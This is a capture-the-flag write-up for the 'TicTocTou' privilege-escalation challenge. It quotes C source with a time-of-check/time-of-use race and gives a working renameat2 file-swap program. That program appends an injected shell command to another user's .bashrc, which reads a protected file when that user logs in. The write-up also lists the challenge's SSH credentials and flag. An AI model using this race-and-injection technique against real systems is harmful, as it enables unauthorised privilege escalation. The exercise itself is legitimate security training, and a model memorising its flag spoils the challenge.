

# TicTocTou

### Description
.--------------------------S h e l l m a t e s   I n f o s e c   W e e k--------------------------.<br>
| Challenge: [TicTocTou](./tictoctou)                                                             |<br>
| Difficulty: Medium                                                                              |<br>
| Category: Pwn                                                                                   |<br>
| Description:                                                                                    |<br>
|              Have you ever played the game named TicTocTou? Yeah, me too, I used to play it a   |<br>
|                lot during boring classes in primary school, because, you know, playing games    |<br>
|                          changes your time's perception and the class ends faster!              |<br>
|                                                                                                 |<br>
| Author's note:                                                                                  |<br>
|                Your goal is to privesc to ctf-cracked in order to read the contents of flag.txt |<br>
|                  Run 'tictoctou' and start pwning, source code is available for this challenge  |<br>
|                                 under /home/ctf-cracked/, let's do it whitebox!                 |<br>
|                       PS: ctf-cracked often logs in to the system, maybe this will help.        |<br>
|                                                gl & hf. - hfz                                   |<br>
| SSH access: ssh -p2222 ctf@3.91.133.232                                                         |<br>
| Password : shellmates                                                                           |<br>
'-------------------------------------------------------------------------------------------------'<br>


### Playing with the binary
The binary is a typical tic-tac-toe game, you play to a bot that uses randomness for it's moves, When I played the game<br>
I noticed an interesting feature where the player enters a username and a filepath and he can save the score<br>
In condition that the player owns that file<br>
```
```
Then when I did the static analyses, I found a race condition in the save_stats() function 
```C
int save_stats(char *nickname, char *filepath, int result, int num_moves) {
    time_t t = time(NULL);
    struct tm tm = *localtime(&t);

    // Check that the real user have write permissions on that file
    if (access(filepath, W_OK) != 0) {					// <== Time-Of-Check
        perror("access check failed");					
        return -1;							
    }									
									
    // Since the real user can write to that file, we proceed safely	
    FILE* f = fopen(filepath, "a");					// <== Time-Of-Use
    if (f == NULL) return -1;

    switch (result){
        case 0:
            fprintf(f, "%s TIED against brainless bot on %d-%02d-%02d at %02d:%02d:%02d! Still a boomer...\n", nickname, tm.tm_year + 1900, tm.tm_mon + 1, tm.tm_mday, tm.tm_hour, tm.tm_min, tm.tm_sec);
            break;
        case 1:
            fprintf(f, "%s WON against brainless bot on %d-%02d-%02d at %02d:%02d:%02d! Not surprising however.\n", nickname, tm.tm_year + 1900, tm.tm_mon + 1, tm.tm_mday, tm.tm_hour, tm.tm_min, tm.tm_sec);
            break;
        case 2:
            fprintf(f, "%s LOST against brainless bot on %d-%02d-%02d at %02d:%02d:%02d! What a shame to lose against pseudo randomness, go play minecraft.\n", nickname, tm.tm_year + 1900, tm.tm_mon + 1, tm.tm_mday, tm.tm_hour, tm.tm_min, tm.tm_sec);
            break;
    }

    fprintf(f, "################# Game stats #################\n");
    for (int j = 0; j < num_moves; j++) {
        if (j % 2) {
            fprintf(f, "# Brainless Bot (X) plays on case %c          #\n", history[j]);
        } else {
            fprintf(f, "# Human (O) plays on case %c                  #\n", history[j]);
        }
    }
    fprintf(f, "##############################################\n\n");

    fclose(f);

    return 0;
}
```
We can abuse the race condition to append text to a file owned by ctf-cracked, but how can we get the flag?<br>
In the description there is a hint that the user ctf-cracked logs in frequently, so we can enter shell commands as username<br>
and append it to ctf-cracked .bashrc file, then when he logs in, the commands get executed and we get the flag<br>
To win the race condition I created an empty file and a symbolic link to the .bashrc file, then I used a syscall wrapper that<br>
I remembered from watching a Liveoverflow video to exchange the names of two files<br>
```C
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
        while (1)
        {
                syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
        }
        return 0;
}
```
I executed the rename program and played the game (a couple of times until the race condition worked) and entered</br>
"cat /home/ctf-cracked/flag.txt > /tmp/shellc0d3/flag.txt" as a username, after few seconds the user logs in and we get the flag</br>
# Flag

shellmates{T1c_T0c_T1C_tOc_@bus1nG_th3_cl0ck_4_fUn_aNd_pr0f1t}
